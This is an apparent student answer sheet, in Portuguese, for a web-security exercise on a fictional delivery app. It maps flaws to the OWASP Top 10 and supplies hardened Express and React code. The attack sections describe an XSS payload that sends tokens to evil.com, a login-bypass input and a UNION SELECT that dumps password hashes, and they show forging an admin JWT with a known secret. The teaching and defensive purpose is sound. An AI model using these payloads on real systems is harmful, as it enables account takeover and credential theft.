


# Exercício Prático: Segurança em SPA — GoFood

---

# Parte 1 — Análise

## Q1 · Mapeamento OWASP Top 10

| Código | Vulnerabilidade | OWASP 2021 | Vetor de ataque |
|---|---|---|---|
| **V1** | Secret JWT hardcoded no código (`"gofood2024secret"`) | A02 Cryptographic Failures (+A05) | Segredo vaza no repositório/bundle; atacante forja qualquer JWT (`jwt.sign` com o segredo conhecido) e se autentica como qualquer usuário/admin. |
| **V2** | SQL Injection no login (query com interpolação de `email`/`password`) | A03 Injection | `' OR '1'='1' --` no email autentica sem senha; permite dump/alteração do banco. |
| **V3** | JWT sem expiração (`expiresIn` ausente) | A07 Auth Failures | Token roubado vale para sempre; impossível expirar sessão comprometida. |
| **V4** | `role` e `userId` retornados no corpo da resposta do login | A02 / A04 | Cliente passa a "confiar" no role; expõe modelo de autorização e facilita manipulação client-side (ver V13/V14). |
| **V5** | Token lido de `req.headers.authorization` sem validar formato/esquema `Bearer` | A07 Auth Failures | Header manipulável; sem `Bearer` parsing nem verificação de tipo; guardado em JS acessível a XSS (V12). |
| **V6** | SQL Injection na busca de pedido (`WHERE id = ${req.params.id}`) | A03 Injection | `UNION SELECT` extrai colunas de outras tabelas (ex.: `users.password`). |
| **V7** | Sem verificação de propriedade (IDOR) em `GET /orders/:id` | A01 Broken Access Control | Trocar o `:id` na URL lê pedidos de outros usuários (dados pessoais, endereço). |
| **V8** | Sem validação de input em `POST /orders` | A04 Insecure Design (+A03) | Payloads malformados, campos inesperados, injeção via `address`/`items`. |
| **V9** | Preço vindo do cliente (`item.price`) | A04 Insecure Design / Business Logic | Cliente envia `price: 0` e compra de graça; total calculado sobre dado não confiável. |
| **V10** | `GET /admin/orders` sem checar se é admin | A01 Broken Access Control | Qualquer usuário autenticado lista todos os pedidos (escalação horizontal→vertical). |
| **V11** | Chamada em `http://` (sem TLS) | A02 Cryptographic Failures (+A05) | Credenciais e token trafegam em claro; MITM em rede insegura. |
| **V12** | Token no `localStorage` | A07 / A05 | Acessível por qualquer JS → roubo trivial via XSS (V15). |
| **V13** | `role` no `localStorage` | A01 Broken Access Control | Usuário edita `localStorage.role = 'admin'` no DevTools e "vira" admin no front. |
| **V14** | Autorização decidida no frontend pelo `role` do `localStorage` | A01 Broken Access Control | Controle de acesso client-side é apenas cosmético; contornável e não confiável. |
| **V15** | `dangerouslySetInnerHTML` com conteúdo de usuário (comentários) | A03 Injection (XSS) | Stored XSS: comentário com `` executa script no navegador de outras vítimas. |
| **V16** | `cors()` sem configuração (qualquer origem) | A05 Security Misconfiguration | Sites maliciosos chamam a API com credenciais do usuário (agravado por CSRF se usar cookies). |
| **V17** | `express.json()` sem limite de tamanho | A05 (+A04) | DoS por payload gigante consumindo memória/CPU. |
| **V18** | Sem rate limiting | A07 / A04 | Brute force de senha e credential stuffing sem barreira; abuso de endpoints. |
| **V19** | Sem `helmet` (headers de segurança ausentes) | A05 Security Misconfiguration | Sem CSP/HSTS/X-Frame-Options: facilita XSS, clickjacking, downgrade. |
| **V20** | Error handler expõe `err.stack` | A05 Security Misconfiguration (+A09) | Vaza caminhos, versões e estrutura interna; ajuda o atacante a mapear o sistema. |

**Resumo por categoria:** A01 → V7, V10, V13, V14; A02 → V1, V3(parcial), V4, V11; A03 → V2, V6, V15; A04 → V8, V9; A05 → V16, V17, V19, V20; A07 → V3, V5, V12, V18.

---

## Q2 · Ataque Prático: Roubo de Token via XSS

Comentário injetado (via V15):
```html

```

### a) Passo a passo quando outra vítima abre a página do produto

1. O comentário malicioso foi salvo no banco (stored XSS) e é devolvido pela API como parte da lista de comentários.
2. O componente `ProductComments` renderiza `c.text` com `dangerouslySetInnerHTML` (V15) — o React **não escapa** o HTML, então a tag `` entra viva no DOM.
3. O browser tenta carregar `src="x"`, falha, e dispara o handler `onerror`.
4. O JavaScript do `onerror` executa no contexto/origem da GoFood: lê `localStorage.getItem('token')` (possível por causa de V12) e faz `fetch` para `https://evil.com/steal?t=<token>`.
5. O servidor do atacante registra o token nos logs de acesso (query string). A vítima não percebe nada — nenhuma interação foi necessária.

### b) Por que o `curl` com o token roubado funciona mesmo a vítima não sendo admin

```bash
curl http://localhost:3000/api/admin/orders -H "Authorization: <token_roubado>"
```

Por causa de **V10**: a rota `/admin/orders` só passa por `authMiddleware`, que apenas verifica se o token é **válido** — nunca checa se `req.user.role === 'admin'`. Qualquer token autêntico, de qualquer usuário, é aceito. O `role` que existe no sistema é decorativo: mora no `localStorage` (V13) e é usado só para esconder o painel no front (V14), nunca imposto no servidor. Ou seja, a autorização de admin **não existe** no backend — basta estar autenticado. O token roubado de um usuário comum abre o endpoint de admin.

### c) Diferença de impacto se o token estivesse em cookie `HttpOnly`

Um cookie marcado `HttpOnly` **não é acessível via JavaScript** (`document.cookie` não o enxerga). Então o payload de XSS não conseguiria **ler e exfiltrar** o token — o roubo direto da credencial falharia. 

Ressalva importante: XSS não vira inofensivo. Com `HttpOnly`, o atacante não *rouba* o token, mas ainda pode **usar** a sessão da vítima fazendo requisições a partir da própria página (o browser anexa o cookie automaticamente) — é o chamado "session riding". A diferença é que o dano fica **confinado ao navegador da vítima e à duração da sessão**, em vez de o atacante levar o token embora e reusá-lo de qualquer lugar (inclusive via `curl`) por tempo indefinido (agravado por V3, sem expiração). Por isso `HttpOnly` é necessário mas não suficiente: precisa vir junto com CSP (mitiga o XSS na origem), `SameSite` (mitiga uso cross-site) e expiração curta.

---

## Q3 · Ataque Prático: SQL Injection

### a) Query resultante no login (V2)

Input no email: `' OR '1'='1' --`

```sql
SELECT * FROM users WHERE email = '' OR '1'='1' --'
                 AND password = '...'
```

O `' OR '1'='1'` torna o `WHERE` sempre verdadeiro (a condição `'1'='1'` é tautológica), e o `--` comenta todo o resto da query, incluindo a checagem de senha. O banco retorna **a primeira linha da tabela `users`** (frequentemente o admin, por ser o primeiro registro). Como o código só testa `if (!user)`, um usuário é retornado → login concedido sem credenciais válidas.

### b) UNION SELECT na rota de pedidos (V6)

```
1 UNION SELECT id, email, password, role, NULL, NULL FROM users --
```

Na query `SELECT * FROM orders WHERE id = 1 UNION SELECT ... FROM users`, o `UNION` anexa ao resultado de `orders` as linhas da tabela `users` — **id, email, hash de senha e role de todos os usuários**. O atacante obtém o dump de credenciais.

Isso é possível mesmo autenticado porque a autenticação (`authMiddleware`) só confirma *quem* é o usuário; ela não sanitiza input nem limita *o que* a query faz. Autenticação não é defesa contra injeção — a query continua concatenando `req.params.id` cru (V6). Um usuário legítimo é, muitas vezes, exatamente quem tem acesso à rota para explorá-la.

### c) Relação entre V1 (secret hardcoded) e o impacto do SQLi

Se o atacante obteve os hashes de senha via SQLi, ele ainda precisaria quebrá-los (bcrypt é custoso). Mas com **V1** ele não precisa: conhecendo o segredo `"gofood2024secret"`, ele **forja** o próprio JWT diretamente —

```js
jwt.sign({ userId: 1, role: 'admin', email: 'admin@gofood.com' }, 'gofood2024secret')
```

— e entra como admin sem quebrar senha nenhuma. V1 transforma "vazei os hashes" em "sou qualquer pessoa que eu quiser, imediatamente". As duas falhas se compõem: SQLi entrega os dados; o secret hardcoded entrega o controle total da identidade. Mesmo sem o dump, V1 sozinho já permite forjar tokens; o SQLi só confirma os `userId`/`role` válidos para tornar a forja perfeita.

---

# Parte 2 — Correção

## Q4 · `auth.js` — Autenticação segura (corrige V1–V5)

```js
const express = require('express');
const jwt = require('jsonwebtoken');
const bcrypt = require('bcrypt');
const cookieParser = require('cookie-parser');
const { z } = require('zod');
const db = require('./db'); // pool com suporte a query parametrizada

const router = express.Router();
router.use(cookieParser());

// V1: segredos vêm do ambiente, nunca do código. Falha rápido se ausentes.
const ACCESS_SECRET  = process.env.JWT_ACCESS_SECRET;
const REFRESH_SECRET = process.env.JWT_REFRESH_SECRET;
if (!ACCESS_SECRET || !REFRESH_SECRET) {
  throw new Error('JWT secrets não configurados no ambiente');
}

const ACCESS_TTL  = '15m';
const REFRESH_TTL = '7d';

const cookieOpts = {
  httpOnly: true,                                   // V12: inacessível a JS
  secure: process.env.NODE_ENV === 'production',    // V11: só via HTTPS
  sameSite: 'strict',                               // mitiga CSRF
  path: '/',
};

const loginSchema = z.object({
  email: z.string().email(),
  password: z.string().min(8).max(200),
});

router.post('/login', async (req, res, next) => {
  try {
    // V8: valida o input
    const { email, password } = loginSchema.parse(req.body);

    // V2: query parametrizada, busca SÓ pelo email
    const { rows } = await db.query(
      'SELECT id, email, password_hash, role FROM users WHERE email = $1',
      [email]
    );
    const user = rows[0];

    // V2/timing: resposta genérica; compara hash mesmo se user não existe
    const hash = user?.password_hash ?? '$2b$12$invalidinvalidinvalidinvalidinva';
    const ok = await bcrypt.compare(password, hash);
    if (!user || !ok) {
      return res.status(401).json({ error: 'Credenciais inválidas' });
    }

    // V3: tokens COM expiração. role fica DENTRO do token (assinado), não no body
    const accessToken = jwt.sign(
      { sub: user.id, role: user.role },
      ACCESS_SECRET,
      { expiresIn: ACCESS_TTL }
    );
    const refreshToken = jwt.sign(
      { sub: user.id, type: 'refresh' },
      REFRESH_SECRET,
      { expiresIn: REFRESH_TTL }
    );

    // V4/V12/V13: tokens vão em cookies HttpOnly; body não expõe role/token
    res.cookie('access_token', accessToken, { ...cookieOpts, maxAge: 15 * 60 * 1000 });
    res.cookie('refresh_token', refreshToken, { ...cookieOpts, path: '/api/auth/refresh', maxAge: 7 * 24 * 60 * 60 * 1000 });
    return res.json({ user: { id: user.id, email: user.email } });
  } catch (err) {
    if (err?.name === 'ZodError') {
      return res.status(400).json({ error: 'Dados inválidos' });
    }
    next(err);
  }
});

router.post('/refresh', async (req, res) => {
  const token = req.cookies?.refresh_token;
  if (!token) return res.status(401).json({ error: 'Sem refresh token' });
  try {
    const payload = jwt.verify(token, REFRESH_SECRET);
    if (payload.type !== 'refresh') throw new Error('tipo inválido');

    // rebusca o role atual (revogação/mudança de papel refletem no próximo access)
    const { rows } = await db.query('SELECT id, role FROM users WHERE id = $1', [payload.sub]);
    const user = rows[0];
    if (!user) return res.status(401).json({ error: 'Usuário inválido' });

    const accessToken = jwt.sign({ sub: user.id, role: user.role }, ACCESS_SECRET, { expiresIn: ACCESS_TTL });
    res.cookie('access_token', accessToken, { ...cookieOpts, maxAge: 15 * 60 * 1000 });
    return res.json({ ok: true });
  } catch {
    return res.status(401).json({ error: 'Refresh token inválido' });
  }
});

router.post('/logout', (req, res) => {
  res.clearCookie('access_token', cookieOpts);
  res.clearCookie('refresh_token', { ...cookieOpts, path: '/api/auth/refresh' });
  res.json({ ok: true });
});

// V5: lê o token do cookie HttpOnly (não do header manipulável)
function authMiddleware(req, res, next) {
  const token = req.cookies?.access_token;
  if (!token) return res.status(401).json({ error: 'Não autenticado' });
  try {
    const payload = jwt.verify(token, ACCESS_SECRET);
    req.user = { userId: payload.sub, role: payload.role };
    next();
  } catch {
    return res.status(401).json({ error: 'Token inválido ou expirado' });
  }
}

module.exports = { router, authMiddleware };
```

**Notas de projeto.** O `role` viaja **dentro** do JWT assinado — o cliente não consegue forjá-lo sem o segredo, e o servidor nunca confia num `role` enviado pelo browser. A comparação bcrypt roda mesmo quando o usuário não existe, para não vazar existência de conta por diferença de tempo/resposta. O refresh token tem `path` restrito para não ser enviado em toda requisição.

---

## Q5 · `orders.js` — Pedidos seguros (corrige V6–V10)

```js
const express = require('express');
const { z } = require('zod');
const db = require('./db');
const { authMiddleware } = require('./auth');

const router = express.Router();

// V8: schema de validação. Preço NÃO entra — é decidido no servidor (V9)
const orderSchema = z.object({
  items: z.array(z.object({
    productId: z.string().uuid(),
    qty: z.number().int().positive().max(100),
  })).min(1).max(50),
  address: z.string().min(5).max(300),
  couponCode: z.string().max(40).optional(),
});

// V10: autorização por role, imposta no SERVIDOR
function requireRole(...roles) {
  return (req, res, next) => {
    if (!req.user || !roles.includes(req.user.role)) {
      return res.status(403).json({ error: 'Acesso negado' });
    }
    next();
  };
}

// V6 + V7: query parametrizada + ownership check
router.get('/orders/:id', authMiddleware, async (req, res, next) => {
  try {
    const id = z.string().uuid().parse(req.params.id); // valida formato do id
    const { rows } = await db.query(
      'SELECT id, user_id, items, total, address, status FROM orders WHERE id = $1',
      [id]
    );
    const order = rows[0];
    if (!order) return res.status(404).json({ error: 'Pedido não encontrado' });

    // V7: só o dono (ou admin) acessa
    if (order.user_id !== req.user.userId && req.user.role !== 'admin') {
      return res.status(403).json({ error: 'Acesso negado' });
    }
    return res.json(order);
  } catch (err) {
    if (err?.name === 'ZodError') return res.status(400).json({ error: 'ID inválido' });
    next(err);
  }
});

// V8 + V9: valida input e calcula preço a partir do catálogo no banco
router.post('/orders', authMiddleware, async (req, res, next) => {
  try {
    const { items, address, couponCode } = orderSchema.parse(req.body);

    // V9: busca preços reais; ignora qualquer preço que viesse do cliente
    const ids = items.map(i => i.productId);
    const { rows: products } = await db.query(
      'SELECT id, price FROM products WHERE id = ANY($1)',
      [ids]
    );
    const priceMap = new Map(products.map(p => [p.id, Number(p.price)]));
    if (priceMap.size !== ids.length) {
      return res.status(400).json({ error: 'Produto inexistente no pedido' });
    }

    const total = items.reduce((sum, i) => sum + priceMap.get(i.productId) * i.qty, 0);

    const { rows } = await db.query(
      `INSERT INTO orders (user_id, items, total, address)
       VALUES ($1, $2, $3, $4) RETURNING id`,
      [req.user.userId, JSON.stringify(items), total, address]
    );
    return res.status(201).json({ id: rows[0].id, total });
  } catch (err) {
    if (err?.name === 'ZodError') return res.status(400).json({ error: 'Dados inválidos' });
    next(err);
  }
});

// V10: exige role admin de verdade, no servidor
router.get('/admin/orders', authMiddleware, requireRole('admin'), async (req, res, next) => {
  try {
    const { rows } = await db.query(
      'SELECT id, user_id, total, status, created_at FROM orders ORDER BY created_at DESC LIMIT 200'
    );
    return res.json(rows);
  } catch (err) {
    next(err);
  }
});

module.exports = router;
```

**Notas.** `couponCode` é validado no schema mas o desconto real também precisaria ser resolvido server-side (mesma lógica do preço) — nunca confiar num valor de desconto vindo do cliente. O ownership check usa `!==` estrito e abre exceção só para admin.

---

## Q6 · `App.jsx` — Frontend seguro (corrige V11–V15)

```jsx
import React, { useState, useEffect } from 'react';
import DOMPurify from 'dompurify';

// V11: base HTTPS e centralizada. credentials:'include' envia o cookie HttpOnly.
const API = 'https://api.gofood.com';

async function api(path, options = {}) {
  const res = await fetch(`${API}${path}`, {
    ...options,
    credentials: 'include', // cookie HttpOnly vai/volta automaticamente
    headers: { 'Content-Type': 'application/json', ...(options.headers || {}) },
  });
  return res;
}

function App() {
  const [user, setUser] = useState(null);
  const [isAdmin, setIsAdmin] = useState(false);

  // V12/V13: nada de token ou role no localStorage. Ao montar, pergunta ao servidor.
  useEffect(() => { checkAdminAccess(); }, []);

  async function handleLogin(email, password) {
    const res = await api('/api/auth/login', {
      method: 'POST',
      body: JSON.stringify({ email, password }),
    });
    if (!res.ok) { setUser(null); return; }
    const data = await res.json();     // body traz só { user }, sem token/role
    setUser(data.user);
    await checkAdminAccess();
  }

  // V14: a autorização é decidida no SERVIDOR. O front só reflete a resposta.
  async function checkAdminAccess() {
    const res = await api('/api/me');  // servidor lê o cookie e devolve o role real
    if (!res.ok) { setIsAdmin(false); setUser(null); return; }
    const me = await res.json();
    setUser(me.user);
    setIsAdmin(me.role === 'admin');
  }

  function AdminPanel() {
    // Esconder no front é só UX. O endpoint /api/admin/* já exige role no servidor (Q5).
    if (!isAdmin) return null;
    return <div>Painel Admin…</div>;
  }

  // V15: nada de HTML cru de usuário. Ou texto puro, ou DOMPurify.
  function ProductComments({ comments }) {
    return (
      <div>
        {comments.map(c => (
          // Opção A (mais segura): renderizar como texto — o React escapa tudo
          <div key={c.id}>{c.text}</div>
        ))}
      </div>
    );
  }

  // Se HTML rico for realmente necessário, sanitizar com allowlist restrita:
  function RichComment({ html }) {
    const clean = DOMPurify.sanitize(html, {
      ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br'],
      ALLOWED_ATTR: ['href'],
    });
    return <div dangerouslySetInnerHTML={{ __html: clean }} />;
  }

  return (/* ... */);
}

export default App;
```

**Notas.** Sem token em JS, o XSS do Q2 deixa de conseguir exfiltrar credencial. A decisão de admin vem de `GET /api/me` (servidor lê o cookie assinado); o `localStorage.role` deixa de existir, então não há o que editar no DevTools. Preferir renderizar comentário como texto; só usar `RichComment` com DOMPurify se houver requisito real de formatação.

---

## Q7 · `server.js` — Configuração segura (corrige V16–V20)

```js
const express = require('express');
const cors = require('cors');
const helmet = require('helmet');
const rateLimit = require('express-rate-limit');
const cookieParser = require('cookie-parser');

const app = express();

// V19: headers de segurança + CSP restritiva
app.use(helmet({
  contentSecurityPolicy: {
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'"],                 // sem 'unsafe-inline' → corta XSS injetado
      styleSrc: ["'self'"],
      imgSrc: ["'self'", 'data:', 'https:'],
      connectSrc: ["'self'", 'https://api.gofood.com'],
      objectSrc: ["'none'"],
      frameAncestors: ["'none'"],            // anti-clickjacking
      upgradeInsecureRequests: [],
    },
  },
  hsts: { maxAge: 31536000, includeSubDomains: true, preload: true },
}));

// V16: CORS restrito à origem da SPA, com credenciais
const ALLOWED_ORIGIN = process.env.SPA_ORIGIN || 'https://app.gofood.com';
app.use(cors({
  origin: ALLOWED_ORIGIN,
  credentials: true,                          // permite cookie HttpOnly cross-origin controlado
  methods: ['GET', 'POST', 'PATCH', 'DELETE'],
  allowedHeaders: ['Content-Type'],
}));

// V17: limite de tamanho do corpo
app.use(express.json({ limit: '16kb' }));
app.use(cookieParser());

// V18: rate limiting global + específico para login (anti brute-force)
app.use(rateLimit({
  windowMs: 15 * 60 * 1000,
  max: 300,
  standardHeaders: true,
  legacyHeaders: false,
}));

const loginLimiter = rateLimit({
  windowMs: 15 * 60 * 1000,
  max: 5,                                      // 5 tentativas / 15 min por IP
  skipSuccessfulRequests: true,
  message: { error: 'Muitas tentativas. Tente novamente mais tarde.' },
});

const { router: authRouter } = require('./auth');
const ordersRouter = require('./orders');

app.use('/api/auth/login', loginLimiter);
app.use('/api/auth', authRouter);
app.use('/api', ordersRouter);

// 404
app.use((req, res) => res.status(404).json({ error: 'Não encontrado' }));

// V20: error handler que NÃO expõe stack em produção
app.use((err, req, res, next) => {
  // loga internamente (com stack) para observabilidade
  console.error(err);
  const body = { error: 'Erro interno' };
  if (process.env.NODE_ENV !== 'production') {
    body.detail = err.message;                // só em dev
  }
  res.status(err.status || 500).json(body);
});

app.listen(process.env.PORT || 3000, () => console.log('GoFood API no ar'));
```

**Nota.** A CSP sem `'unsafe-inline'` é a segunda linha de defesa contra o XSS do Q2: mesmo que algum HTML escape a sanitização, o navegador se recusa a executar script inline não autorizado.

---

# Parte 3 — Análise Arquitetural

## Q8 · Diagrama de Sequência: Fluxo Completo Seguro



**Vulnerabilidades mitigadas por etapa:**

| Etapa | Mitiga |
|---|---|
| Login sobre HTTPS + CORS restrito | V11, V16 |
| Query parametrizada no login | V2 |
| bcrypt + secret via env + expiração | V1, V3 |
| Cookie HttpOnly/Secure/SameSite, body sem role/token | V4, V12, V13 |
| Token lido do cookie | V5 |
| Query parametrizada + ownership em /orders/:id | V6, V7 |
| `requireRole('admin')` no servidor | V10, V14 |
| CSP/helmet + DOMPurify (transversal) | V15, V19 |
| Rate limit no /login | V18 |

---

## Q9 · Escalando a Segurança: Microserviços

### a) Proteção de dados em repouso (cartão de crédito)

| Técnica | O que faz | Quando usar |
|---|---|---|
| **TDE** (Transparent Data Encryption) | Cifra os arquivos do banco em disco; transparente para a aplicação | Baseline contra roubo físico de disco/backup. Não protege contra SQLi ou credencial vazada — a aplicação continua vendo tudo em claro. |
| **Column Encryption** | Cifra colunas específicas (ex.: PAN) com chave gerenciada em KMS/HSM | Quando alguns campos são muito mais sensíveis que o resto e você precisa que nem o DBA veja em claro. Custa desempenho e complica busca/índice. |
| **Tokenização (ex.: Stripe)** | O dado do cartão nunca toca seu banco; você guarda um *token* opaco e o provedor guarda o cartão | **Escolha recomendada aqui.** |

**Justificativa para a GoFood:** tokenizar via Stripe (ou equivalente) tira o número do cartão inteiramente do escopo da aplicação. Você nunca armazena, transmite ou processa o PAN — guarda só um token que serve para cobrar. Isso reduz drasticamente o **escopo de PCI-DSS** (de SAQ-D para SAQ-A, na prática), elimina o cartão como alvo de SQLi/vazamento, e transfere o ônus de cofre/HSM/rotação de chave para um provedor especializado. TDE ainda deve estar ligado como higiene geral (protege backups e o resto do banco), e Column Encryption fica reservado a outros dados sensíveis que *precisem* ficar em casa (ex.: CPF), não ao cartão.

### b) Segurança na rede interna (Auth, Orders, Products, Payments)



- **TLS Termination no API Gateway:** o gateway encerra o TLS externo, é o único ponto exposto à internet, e concentra autenticação de borda, rate limiting e WAF.
- **mTLS via service mesh (ex.: Istio/Linkerd) entre serviços:** cada serviço apresenta e valida certificado — um serviço comprometido não consegue se passar por outro, e o tráfego leste-oeste é cifrado e autenticado. Elimina a suposição ingênua de "rede interna é confiável" (zero trust).
- **Segmentação do Payments em subnet isolada:** o serviço de pagamentos fica em subnet própria, com regras de rede que permitem entrada só a partir do mesh autorizado e **egress restrito** apenas ao provedor (Stripe). Assim, mesmo que Orders ou Products seja comprometido, o caminho até o serviço que fala com dinheiro é estreito e auditável. Segredos de pagamento ficam num secrets manager, nunca em variáveis compartilhadas com o resto.

### c) Observabilidade de segurança — eventos a logar e monitorar

| # | Evento monitorado | Detecta ataque | Vulnerabilidade relacionada |
|---|---|---|---|
| 1 | Falhas de login repetidas por IP/conta (picos) | Brute force / credential stuffing | V18 |
| 2 | Respostas 403 em rajada por um mesmo token (varredura de IDs) | Tentativa de IDOR / acesso indevido | V7, V10 |
| 3 | Inputs com padrões de SQL (`UNION`, `OR '1'='1'`, `--`) rejeitados | SQL Injection | V2, V6 |
| 4 | Erros de `jwt.verify` (assinatura inválida) acima do normal | Token forjado / manipulado | V1, V3, V5 |
| 5 | Requisições a `/admin/*` de tokens sem role admin (403) | Escalação de privilégio | V10, V14 |
| 6 | Comentários/campos contendo `<script`, `onerror=`, `<img` | Tentativa de XSS armazenado | V15 |
| 7 | Requisições de origens não permitidas bloqueadas pelo CORS | Abuso cross-origin | V16 |
| 8 | Pico de payloads próximos ao limite de tamanho / 429 | DoS / abuso de recurso | V17, V18 |

Esses logs devem ir para um **SIEM** com alertas de anomalia (não só armazenamento), correlação por `traceId` entre microserviços, e retenção adequada — cobrindo o A09 (Logging & Monitoring Failures) que o código original ignorava por completo.

---

## Q10 · Pipeline DevSecOps

| Etapa | Ferramenta | O que detecta | Qual V1–V20 teria pego |
|---|---|---|---|
| **Pre-commit** | `git-secrets` / Gitleaks + ESLint (plugin security) + Prettier | Segredos hardcoded, padrões inseguros de código antes de commitar | **V1** (secret no código); `dangerouslySetInnerHTML` flagrado pelo lint → **V15** |
| **Build** | `npm audit` / Snyk / OWASP Dependency-Check (SCA) + Semgrep (SAST) | Dependências com CVE; anti-padrões: query concatenada, JWT sem `expiresIn`, `cors()` aberto, falta de helmet | **V2, V6** (SQLi), **V3** (JWT sem exp), **V16, V17, V19, V20**, e A06 (componentes vulneráveis) |
| **Test** | Testes de integração de autorização + suíte de casos de abuso (IDOR, role) | Falha de ownership e de checagem de role em runtime de teste | **V7, V10, V14** (ownership/authz), **V9** (preço do cliente) via teste de lógica de negócio |
| **Deploy** | DAST (OWASP ZAP baseline) contra staging + verificação de headers (Mozilla Observatory) + IaC scan (Checkov) | XSS refletido/armazenado, CORS, headers ausentes, TLS mal configurado, config de infra insegura | **V11** (HTTP), **V15** (XSS), **V16, V19** (CORS/headers), **V18** (ausência de rate limit observável) |
| **Runtime** | WAF + RASP + SIEM com alertas (ver Q9c) + rate limiting | Ataques em produção: brute force, injeção, tentativas de escalação, exfiltração | **V2, V6** (injeção bloqueada pelo WAF), **V10, V14** (403 monitorado), **V18** (rate limit), **V12/V13** (exfiltração de token detectável) |

**Princípio geral (shift-left):** quanto mais cedo no pipeline a falha é pega, mais barata a correção. Secrets e lint no pre-commit; SAST/SCA no build; testes de autorização no test; DAST e checagem de configuração no deploy; e defesa + detecção em runtime como última camada. Nenhuma etapa sozinha cobre tudo — é o encadeamento (defense in depth) que fecha o conjunto V1–V20.
